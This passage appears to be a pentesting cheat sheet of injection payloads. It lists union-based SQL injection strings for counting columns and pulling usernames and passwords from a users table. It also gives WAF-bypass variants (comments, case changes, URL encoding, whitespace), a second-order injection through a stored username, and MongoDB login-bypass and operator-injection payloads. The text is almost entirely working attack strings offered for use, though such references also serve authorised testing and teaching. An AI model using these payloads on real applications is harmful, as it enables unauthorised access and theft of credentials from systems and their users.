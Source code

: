 #### Union-based SQLi

```sql
# Determine number of columns
' ORDER BY 1-- 
' ORDER BY 2-- 
# Continue until error

# Or use NULL
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--

# Extract data
' UNION SELECT username,password,3 FROM users--

# Bypass WAF
# Use comments
'/**/UNION/**/SELECT/**/

# Case variation
' uNiOn sElEcT

# Encoding
%27%20UNION%20SELECT%20

# Newline/tab
' UNION%0ASELECT%09
```

#### Second-Order SQLi

```sql
# 1. Register with username: admin'--
# 2. Application stores username in database
# 3. When application retrieves and uses username in another query:
SELECT * FROM users WHERE username='admin'--' AND role='user'
# Results in: SELECT * FROM users WHERE username='admin'
```

#### NoSQL Injection

```javascript
// MongoDB
// Login bypass
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": "^admin"}, "password": {"$ne": null}}

// Operator injection
{"username": "admin", "password": {"$gt": ""}}

// JavaScript injection (if eval is used)
{"username": "admin", "password": "pass'; return true; var dummy='"}

// Extract data character by character
{"username": {"$regex": "^a"}, "password": {"$ne": null}} // true if username starts with 'a'
```
